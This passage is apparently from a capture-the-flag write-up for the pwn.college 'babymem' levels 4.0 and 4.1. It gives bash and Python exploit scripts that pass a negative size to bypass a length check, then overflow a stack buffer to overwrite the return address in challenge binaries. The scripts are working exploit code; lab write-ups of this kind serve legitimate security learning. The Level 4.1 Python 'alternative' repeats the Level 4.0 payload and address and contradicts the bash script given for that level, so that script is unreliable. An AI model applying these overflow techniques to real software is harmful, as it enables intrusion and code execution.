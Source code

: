 `./memory.sh 120`

<div alt="page-break" class="page-break"></div>

> Easier alternative: **memory.py**
>
> ```python
> import subprocess
> 
> file = "/challenge/babymem_level4.0"
> 
> payload = b"-1\n"
> payload += b"A" * 120
> payload += b"\x1b\x22\x40"
> 
> process = subprocess.Popen(file, stdin=subprocess.PIPE)
> process.communicate(payload)
> ```
>
> `python memory.py`

## Level 4.1

```shell
#!/bin/bash

file="/challenge/*"

payload_size=$1
payload_size=$((payload_size * -1))
append_string=$(echo -e "\xf3\x15\x40")

string=$(printf '1%.0s' $(seq 1 $(($payload_size * -1))))

if [[ -n "$append_string" ]]; then
    string="${string}${append_string}"
fi

printf "%d %s" "$payload_size" "$string" | $file

echo -e '\nThe provided string is:' $string ', length:' $payload_size
```

`./memory.sh 56`

> Easier alternative: **memory.py**
>
> ```python
> import subprocess
> 
> file = "/challenge/babymem_level4.1"
> 
> payload = b"-1\n"
> payload += b"A" * 120
> payload += b"\x1b\x22\x40"
> 
> process = subprocess.Popen(file, stdin=subprocess.PIPE)
> process.communicate(payload)
> ```
>
> `python memory.py`
